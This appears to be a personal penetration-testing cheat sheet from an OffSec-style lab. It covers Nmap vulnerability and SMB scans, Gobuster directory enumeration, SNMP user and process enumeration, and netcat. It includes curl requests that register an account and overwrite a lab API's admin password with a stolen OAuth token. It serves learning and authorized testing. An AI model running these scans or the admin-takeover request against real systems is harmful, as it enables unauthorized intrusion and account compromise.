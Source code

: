 # Cheetsheet
## Websites
- Shodan.io: Gives info on websites
- https://www.ssllabs.com/ssltest/ = ssl vul teste and info on sites


  
Enumeration tips:
Can use inspect elements on a web page to find out what server its running on






















# Nmap 

### Starting scan 
```
nmap -sCV -T4 -O --osscan-guess -v -p- <target_ip>

```

### Script for checking for base cves

```
sudo nmap -sV -p<port> --script "vuln" <ip>
```


### run udp after tcp nmap to see if its open because its important if it is
```
sudo nmap -Pn -n $IP -sU --top-ports=100 --reason
```
### SMD enumeration typically for port 139 and 445 if they open
```
nmap -p 139,445 --script=smb-enum-shares,smb-enum-users,smb-os-discovery,smb-vuln* <target_ip>
```

# WEBsite scanning

### Gobuster: map all its publicly-accessible files and directories
```
gobuster dir -u <target> -w /usr/share/wordlists/dirb/common.txt
```
If you can find anything under it then you can go even further like with this example to find more
```
gobuster dir -u http://192.168.50.16:5002/users/v1/admin/ -w /usr/share/wordlists/dirb/small.txt
```
Use this command to dig deeper if you find users 
```
curl -i http://192.168.50.16:5002/users/v1
```
If found info and can try to login with 
```
curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
```
If cant login could try to make my own account on the site
```
curl -d '{"password":"lab","username":"offsecadmin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/register
```
Can use the put method to insert account if other methods fail( Also the OAuth token is gathered from a login of a normal user)
```
curl -X 'PUT' \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
  -d '{"password": "pwned"}'
```


### Net cat
It is used to send and recive data over an open port, -lvnp is to setup a listener
```
nc <target_ip> <port>
```


### SNMP
```
-Nmap UDP scan-
sudo nmap <IP> -A -T4 -p- -sU -v -oN nmap-udpscan.txt

snmp walk is important to see what software and user accounts are on the machine

snmpcheck -t <IP> -c public #Better version than snmpwalk as it displays more user friendly

snmpwalk -c public -v1 -t 10 <IP>     #Displays entire MIB tree, MIB Means Management Information Base
snmpwalk -c public -v1 <IP> 1.3.6.1.4.1.77.1.2.25    #Windows User enumeration
snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.25.4.2.1.2     #Windows Processes enumeration
snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.25.6.3.1.2       #Installed software enumeraion
snmpwalk -c public -v1 <IP> 1.3.6.1.2.1.6.13.1.3           #Opened TCP Ports

-Windows MIB values-
1.3.6.1.2.1.25.1.6.0 - System Processes
1.3.6.1.2.1.25.4.2.1.2 - Running Programs
1.3.6.1.2.1.25.4.2.1.4 - Processes Path
1.3.6.1.2.1.25.2.3.1.4 - Storage Units
1.3.6.1.2.1.25.6.3.1.2 - Software Name
1.3.6.1.4.1.77.1.2.25 - User Accounts
1.3.6.1.2.1.6.13.1.3 - TCP Local Ports



```































